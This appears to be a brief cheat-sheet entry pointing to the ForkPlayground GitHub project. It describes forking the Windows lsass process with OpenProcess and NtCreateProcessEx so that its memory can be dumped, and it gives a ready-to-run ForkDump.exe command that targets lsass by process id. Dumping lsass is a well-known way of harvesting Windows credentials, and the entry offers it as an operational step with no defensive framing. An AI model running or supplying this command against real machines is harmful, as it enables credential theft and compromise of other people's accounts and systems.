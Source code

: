 ### source
https://github.com/D4stiny/ForkPlayground  

### use OpenProcess(PROCESS_CREATE_PROCESS, FALSE, ProcessId) and NtCreateProcessEx functions to dump lsass process
```
ForkDump.exe <outfile>.dmp (Get-Process lsass).id
```

